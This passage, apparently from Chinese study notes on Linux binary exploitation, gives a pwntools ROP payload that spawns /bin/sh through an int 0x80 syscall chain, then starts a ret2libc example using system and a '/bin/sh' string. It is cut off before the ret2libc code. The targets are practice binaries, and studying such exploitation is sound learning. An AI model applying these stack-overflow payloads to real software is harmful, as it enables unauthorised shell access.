 ```
payload = 'a'*0x70 + 
```

查看wp，用了 pwntools 的 flat 特性。

构造payload如下：

```python

from pwn import *

eax_addr = 0x080bb196
edcbx_addr = 0x0806eb90
binsh_addr = 0x080be408
int80_addr = 0x08049421

payload = flat(['a'*0x70,eax_addr,0xb,edcbx_addr,0,0,binsh_addr,int80_addr])
p = process('./rop')
p.sendlineafter("What do you plan to do?\n", payload)
p.interactive()
```

### ret2libc

#### 例1

```bash
[*] '/mnt/f/github/pwn-study/Linux-pwn/ret2libc1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

用IDA可以发现程序中存在 `system` 函数和 `/bin/sh` 字符串

```
➜  pwn-study ROPgadget --binary ret2libc1 --string '/bin/sh'
Strings information
============================================================
0x08048720 : /bin/sh
```

```c
.plt:08048460 ; int system(const char *command)
```

通过计算得到要覆盖的区域大小为 `0x70` ，然后压入 `system` 的地址，然后压入一个返回值，最后压入 `/bin/sh` 的地址。

这样子我们可以构造出相应的payload:

```
payload = 'a'*0x70+sys_addr+'a'*4+binsh_addr
```

参考代码如下：
